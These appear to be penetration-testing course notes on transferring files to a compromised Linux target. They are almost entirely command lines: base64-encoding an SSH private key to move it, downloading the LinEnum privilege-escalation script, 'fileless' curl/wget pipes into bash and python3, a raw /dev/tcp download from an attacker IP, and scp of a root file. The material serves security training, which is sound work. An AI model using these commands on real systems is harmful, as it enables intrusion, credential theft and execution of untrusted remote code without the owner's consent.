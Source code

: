 # Linux Download Operations

Although Linux can communicate via FTP, SMB like Windows, most malware on all different operating systems uses HTTP and HTTPS for communication.

## Base64 Encoding / Decoding

1. Pwnbox - Check File MD5 hash
md5sum id_rsa

2. Pwnbox - Encode SSH Key to Base64
cat id_rsa |base64 -w 0;echo

3. Target - Decode the File
echo -n 'LS0o=' | base64 -d > id_rsa

4. Target - Confirm the MD5 Hashes Match
md5sum id_rsa

## Web Downloads with Wget and cURL

Download a File Using wget
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh

Download a File Using cURL
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

## Fileless Attacks Using Linux

--> download the payload and execute it directly without create a file

curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash

wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3

wget -qO- http://$TARGET/flag.txt | python3


## Download with Bash (/dev/tcp)

exec 3<>/dev/tcp/10.10.10.32/80

echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

cat <&3

## SCP SSH Downloads

1. Enabling the SSH Server
sudo systemctl enable ssh

2. Starting the SSH Server
sudo systemctl start ssh

3. Checking for SSH Listening Port
netstat -lnpt

4. Linux - Downloading Files Using SCP
scp plaintext@192.168.49.128:/root/myroot.txt . 

